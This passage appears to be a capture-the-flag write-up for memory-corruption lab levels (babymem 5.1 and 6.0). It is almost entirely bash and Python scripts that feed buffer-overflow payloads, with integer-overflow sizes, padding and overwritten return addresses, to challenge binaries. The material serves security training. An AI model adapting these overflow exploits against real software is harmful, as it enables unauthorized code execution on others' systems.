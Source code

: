```shell
#!/bin/bash
file="/challenge/*"

payload_n=2
payload_size=$1
overflowing_payload_size=2147483648
append_string=$(echo -e "\x39\x18\x40")
string=$(printf '1%.0s' $(seq 1 $payload_size))

if [[ -n "$append_string" ]]; then
    string="${string}${append_string}"
fi

payload_size=$(($payload_size+${#append_string}))

printf "%d %d %s" "$payload_n" "$overflowing_payload_size" "$string" | $file

echo -e '\nThe provided string is:' $string ', length:' $payload_size
```

`./memory5.sh 56` 

> Easier alternative: **memory.py**
>
> ```python
> import subprocess
> 
> file = "/challenge/babymem_level5.1"
> 
> overflow = 2**31
> 
> payload = f"2\n{overflow}\n".encode()
> payload += b"A" * 56
> payload += b"\x39\x18\x40"
> 
> process = subprocess.Popen(file, stdin=subprocess.PIPE)
> process.communicate(payload)
> ```
>
> `python memory.py`

## Level 6.0

`./memory.sh 72 "\xcc\x1d\x40"`

> Easier alternative: **memory.py**
>
> ```python
> import subprocess
> 
> file = "/challenge/babymem_level6.0"
> 
> payload = b"75\n"
> payload += b"A" * 72
> payload += b"\xcc\x1d\x40"
> 
> process = subprocess.Popen(file, stdin=subprocess.PIPE)
> process.communicate(payload)
> ```
>
> `python memory.py`
